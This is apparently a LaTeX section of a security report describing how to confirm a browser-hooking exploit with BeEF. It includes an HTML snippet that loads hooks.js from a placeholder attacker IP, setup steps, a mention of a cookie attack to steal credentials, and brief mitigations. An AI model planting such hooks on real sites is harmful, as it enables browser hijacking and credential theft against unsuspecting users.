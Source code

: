 \documentclass[notitlepage]{article}
\begin{document}
	\subsubsection{Confirmation method}
	To confirm the exploit use: \\
	. Start up web server, \textbf{apache2} in our case. \textbf{sudo service apache2.}  \\
	. If on linux, create web file, in our case \textbf{collections.html} in \textbf{w/var/www/html/coins/} directory. \\  
	. Paste the following code into the file: \\
	\indent \indent \textless!DOCTYPE html\textgreater \\
	\indent \indent \indent \textless html\textgreater \\
	\indent \indent \indent \indent \textless body \textgreater \\
	\indent\indent\indent\indent\indent \textless script type="text/javascript" src="\textbf{YOUR IP ADDRESS}:3000/hooks.js" \textgreater \textless /script \textgreater \\
	\indent\indent\indent\indent \textless /body\textgreater\\
	\indent\indent\indent \textless /html\textgreater \\
	. Restart \textbf{apache2} server. \textbf{sudo service apache2 restart}. \\
	. Install \textbf{BeEF} per their instructions.\\ \href{https://github.com/beefproject/beef/wiki/Configuration}{BeET Github}.\\
	. Start \textbf{BeEF} per their instructions.\\
	. Open browser and enter 'http://\textbf{YOUR IP ADDRESS} and press enter. \\
	. You should see your IP address in the BeEF software and can run a cookie attack to steal credentials.  \\
	
	\subsubsection{Mitigation or Resolution Strategy}
	. User Training on Phishing attacks. \\
	. Configure brower system to regularly delete cookies. \\
	. Use Multi-factor Authentication.\\
	
\end{document}
